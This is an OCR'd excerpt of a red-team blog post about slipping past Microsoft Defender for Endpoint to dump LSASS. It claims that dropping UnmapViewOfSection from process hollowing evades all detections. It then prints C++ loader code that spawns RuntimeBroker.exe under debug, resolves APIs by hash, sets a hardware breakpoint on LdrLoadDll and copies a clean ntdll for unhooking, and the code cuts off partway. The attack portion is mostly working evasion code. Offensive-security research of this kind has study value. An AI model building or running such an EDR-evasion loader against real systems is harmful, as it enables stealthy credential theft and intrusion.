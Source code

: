 ![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230915191541.png)

Recently, a lot of new Process Injection techniques have arised like [DllNotificationInjection](https://github.com/ShorSec/DllNotificationInjection/tree/master) and [ThreadlessInject](https://github.com/CCob/ThreadlessInject) to avoid the execution of the last few Process Injection APIs - `ResumeThread` etc. It is possible to replace this functionality, however for Process Hollowing the main detection arises from the `UnmapViewOfSection` API. 

Removing this we get past all detections. The finaly source looks something like this:

```
int main(int argc, char* argv[])
{
	BOOL stealth = FALSE;
	if (argc == 2)
	{
		if (strcmp(argv[1], "stealth") == 0) {
			printf("[+] Stealth mode: Unhooking one function\n");
			stealth = TRUE;
		}

	}

	printf("[+] Creating new process in debug mode\n");
	PROCESS_INFORMATION process = createProcessInDebug((wchar_t*)LR"(C:\Windows\System32\RuntimeBroker.exe)");
	HANDLE hThread = process.hThread;

	HMODULE hNtdll = GetModuleFromPEB(4097367);
	HMODULE hKernel_32 = GetModuleFromPEB(109513359);
	_LdrLoadDll LdrLoadDllCustom = (_LdrLoadDll)GetAPIFromPEBModule(hNtdll, 11529801);

	size_t LdrLoadDllAddress = reinterpret_cast<size_t>(LdrLoadDllCustom);
	printf("[+] Found LdrLoadDllAddress address: 0x%p\n", LdrLoadDllAddress);

	printf("[+] Setting HWBP on remote process\n");

	SetHWBP((DWORD_PTR)LdrLoadDllAddress, hThread);
	printf("[+] Copying clean ntdll from remote process\n");


	size_t NtdllBAddress = reinterpret_cast<size_t>(hNtdll);
	printf("[+] Found ntdll base address: 0x%p\n", NtdllBAddress);
	int NtdllResult = CopyDLLFromDebugProcess(process.hProcess, NtdllBAddress, stealth);
	if (NtdllResult == 0)
```

[+]: Shellcode located at c7160